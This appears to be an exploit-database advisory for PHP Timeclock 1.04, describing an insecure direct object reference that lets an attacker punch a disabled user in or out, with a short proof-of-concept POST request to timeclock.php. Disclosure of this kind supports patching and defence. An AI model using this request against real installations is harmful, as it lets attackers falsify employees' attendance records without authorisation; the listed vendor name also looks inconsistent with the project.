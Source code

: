 # Exploit Title: PHP Timeclock 1.04 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/timeclock/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.04
## Exploit Description:
## PHP Timeclock v1.04 suffers from IDOR - Broken Access Control Vulnerability allowing attacker to punch in and punch out a user who is disabled(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /timeclock.php HTTP/1.1
...

left_fullname=user2(CHANGE HERE)&employee_passwd=user2test(CHANGE HERE)&left_inout=break&left_notes=user22note&submit_button=Submit
```